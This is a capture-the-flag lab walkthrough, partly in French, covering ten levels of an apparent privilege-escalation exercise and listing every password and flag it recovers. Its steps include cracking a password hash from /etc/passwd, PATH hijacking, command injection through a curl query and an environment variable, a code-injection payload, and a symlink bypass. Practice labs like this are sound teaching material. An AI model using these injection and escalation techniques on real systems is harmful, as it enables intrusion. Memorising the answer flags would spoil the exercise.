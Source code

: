 
# level 0
level00:level00

`find / -group "flag00" 2>/dev/null`
```
/usr/sbin/john
/rofs/usr/sbin/john
```
`cat /usr/sbin/john`
```
cdiiddwpgswtgt
```
`su flag00:cdiiddwpgswtgt -> fail`

`dcode.fr -> rot15 -> 	cdiiddwpgswtgt -> NOTTOOHARDHERE`

`su flag00:nottoohardhere`

`getflag`
```
x24ti5gi3x0ol2eh4esiuxias
```
# level 1
su level01:x24ti5gi3x0ol2eh4esiuxias

`cat /etc/passwd`

flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

su flag01:42hDRfypTqqnw -> fail

john the ripper  [DES 128/128 SSE2-16]) -> ```42hDRfypTqqnw :  abcdefg```

su flag01:abcdef

getflag
```
f2av5il02puano7naaf6adaaf
```

# level 02
su level02:f2av5il02puano7naaf6adaaf

level02.pcap open it with wireshark follow tcp stream -> read pwd flag

Password: ft_wandr...NDRel.L0L -> ft_waNDReL0L

getflag-> kooda2puivaav1idi4f57q8iq

# level 03
su level03:kooda2puivaav1idi4f57q8iq
./level03 -> exploit me
ls -l ./level03 a le groupe flag03
en desassemblant le binaire, la string est ecrite comme ceci "/usr/bin/env echo Exploit me"

en utilisant un autre echo on peut appeler getflag et avoir le flag `qi0maab88jeaj46qoumi7maus`


# level 04
fichier perl qui resume le contenu d'un serveur, imprime le contenu de la variable x
curl "http://127.0.0.1:4747/?x=\$(getflag)"
```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

# level 5

you have new mail in /var/mail/level05

find / -group flag05 2>/dev/null

cat /usr/sbin/openarenaserver 

echo 'getflag > /tmp/coucou' > /opt/openarenaserver/coucou


watch cat /tmp/coucou -> viuaaale9huek52boumoomioc


# level 6
su level06:viuaaale9huek52boumoomioc

```
echo '[x ${`$(getflag > /tmp/salut)`}]' > /tmp/coucou
```

./level06 /tmp/coucou

wiok45aaoguiboiki2tuin6ub

# level 7
su level07:wiok45aaoguiboiki2tuin6ub

en desassemblant le binaire on voit qu'il y a un exec et qu'il y a  une string `/bin/echo %s` on voit aussi qu'il appelle une variable d'env avec la fonction getenv

l'env qui est visible grace a la fonction strings c'est LOGNAME
export LOGNAME=\`getflag\`
./level07

fiumuikeil55xe9cu4dood66h

# level 8

su level08:fiumuikeil55xe9cu4dood66h

get token by `ln -s $(pwd)/token /tmp/coucou`
puis ./level08 /tmp/coucou
le nom token est harcode et si le fichier a un autre nom on peut le lire. 
on le voit en regardant en desassenblant
le programme compare le nom du fichier donne en argument et la string "token"

on obtient le token `quif5eloekouj29ke0vouxean`

`flag08:quif5eloekouj29ke0vouxean`

getflag `25749xKZ8L7DkSCwJkT9dyv6f`


# level 9

en utilisant le programme level9 on voit qu'on a faire avec un programme qui ajoute une rotation

while read line; do for (( i=0 ; i<${#line} ; i++ )) ; do echo ord ${line:$i:1} ; done ; done < token









